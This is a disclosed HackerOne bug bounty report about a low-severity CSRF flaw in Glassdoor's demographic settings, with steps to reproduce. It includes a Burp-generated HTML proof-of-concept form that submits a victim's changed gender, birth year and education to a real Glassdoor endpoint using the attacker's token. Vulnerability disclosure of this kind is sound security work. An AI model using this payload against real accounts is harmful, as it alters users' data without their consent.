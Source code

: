 # CSRF in Demographic Settings with valid gdtoken of other account 

## Report Details
- **Report ID**: 1092849
- **URL**: https://hackerone.com/reports/1092849
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-02-02T13:11:22.339Z
- **Disclosed**: 2021-04-16T02:46:30.256Z

## Reporter
- **Username**: turb0h4x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
Hi Security Team,
I found CSRF in account settings exactly in Demographic leads to change Brith Years and Gender .

Steps To produce :

1.Creat to 2 account 
* Attacker@mail.com
* Victim@mail.com

2. Login with attacker account and Go to Demographic settings i change gender and brith years 
3. Start burp and turn on intercept .
4.Capture the request and send it to reapeter 
5. Generate CSRF POC : 

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.glassdoor.com/member/account/settings_changeUserInformation.htm" method="POST">
      <input type="hidden" name="newGender" value="FEMALE" />
      <input type="hidden" name="birthYear" value="1940" />
      <input type="hidden" name="highestEducation" value="HIGH&#95;SCHOOL" />
      <input type="hidden" name="gdToken" value=" Attcker token" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
* Host This html code .
* Now , Login to victim account .
* Click Submit, BrithYears and Gender will changed .

## Impact

Changin Demographic settings of users

## Attachments
No attachments
